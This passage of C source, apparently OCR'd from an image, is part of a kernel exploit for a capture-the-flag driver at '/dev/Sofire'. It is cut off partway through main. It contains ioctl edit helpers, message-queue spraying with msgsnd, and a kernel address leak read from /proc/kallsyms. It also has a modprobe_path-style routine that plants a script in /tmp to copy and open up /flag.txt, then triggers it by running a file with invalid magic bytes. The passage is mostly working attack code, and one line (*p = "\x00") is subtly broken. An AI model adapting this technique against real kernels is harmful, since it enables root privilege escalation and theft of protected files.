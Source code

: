 ```c
  request req;
  bzero(&req, sizeof(req));
  req.idx = idx;
  memcpy(req.buffer, data, sizeof(req.buffer));
  int ret = ioctl(global_fd, NFT_EDIT, &req);
  if (ret < 0) {
    die("[!] Failed to edit");
  }
}

void hexdump(void *data, int size) {
  uint64_t *a = (uint64_t *)data;
  for (int i = 0; i < size / 8; i++) {
    printf("[%02x]: 0x%lx\n", i * 8, a[i]);
  }
}

void send_msg(int id, void *buf, size_t size, int flags) {
  if (msgsnd(id, buf, size, flags) < 0) {
    die("[!] Failed to send msg");
  }
  printf("[+] Send message: 0x%lx\n", size);
}

void get_flag(void){
    system("echo '#!/bin/sh\ncp /flag.txt /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[*] Run unknown file");
    system("/tmp/dummy");

    puts("[*] Hopefully flag is readable");
    system("cat /tmp/flag >> /tmp/1");
    system("cat /tmp/1");

    exit(0);
}

uint64_t leak() {
  FILE *fp = popen("cat /proc/kallsyms |grep _stext", "r");
  if (fp == NULL) {
    die("[!] Error opening /proc/kallsyms");
  }
  char line[1024];
  bzero(line, 1024);
  char *p;
  fread(&line, 0x10, 0x10, fp);
  p = strchr(line, ' ');
  *p = "\x00";
  return strtoull(line, NULL, 16);
}

int main(int argc, char **argv) {
  global_fd = open("/dev/Sofire", O_NONBLOCK);
  if (global_fd < 0) {
    die("[!] Failed to open /dev/chall");
  }
  int qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
  if (qid < 0) {
    die("[!] Failed to msgget");
```